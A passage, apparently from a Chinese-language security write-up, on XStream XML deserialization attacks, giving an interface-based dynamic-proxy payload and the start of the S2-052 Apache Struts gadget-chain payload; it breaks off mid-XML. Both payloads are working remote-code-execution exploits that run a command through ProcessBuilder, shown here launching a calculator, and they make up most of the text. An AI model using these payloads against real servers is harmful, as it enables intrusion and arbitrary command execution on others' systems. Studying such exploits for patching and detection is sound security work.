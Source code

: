 基于接口的类型的payload和上面两个poc不一样，并不会立即触发。这种方式是基于服务端解析XML之后会直接调用到XML中interface标签指向的接口类声明的方法，因此这种情形下必然会触发动态代理类对象的恶意方法。

```xml
<contact class='dynamic-proxy'>
  <interface>org.company.model.Contact</interface>
  <handler class='java.beans.EventHandler'>
    <target class='java.lang.ProcessBuilder'>
      <command>
        <string>calc.exe</string>
      </command>
    </target>
    <action>start</action>
  </handler>
</contact>
```

##### S2-052

S2-052 payload如下:

```xml
<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
        <dataHandler>
          <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
            <is class="javax.crypto.CipherInputStream">
              <cipher class="javax.crypto.NullCipher">
                <initialized>false</initialized>
                <opmode>0</opmode>
                <serviceIterator class="javax.imageio.spi.FilterIterator">
                  <iter class="javax.imageio.spi.FilterIterator">
                    <iter class="java.util.Collections$EmptyIterator"/>
                    <next class="java.lang.ProcessBuilder">
                      <command>
                        <string>calc</string>
                      </command>
                      <redirectErrorStream>false</redirectErrorStream>
                    </next>
                  </iter>
                  <filter class="javax.imageio.ImageIO$ContainsFilter">
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>foo</name>
                  </filter>
                  <next class="string">foo</next>
                </serviceIterator>
                <lock/>
              </cipher>
              <input class="java.lang.ProcessBuilder$NullInputStream"/>
              <ibuffer></ibuffer>
              <done>false</done>
              <ostart>0</ostart>
              <ofinish>0</ofinish>
              <closed>false</closed>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
```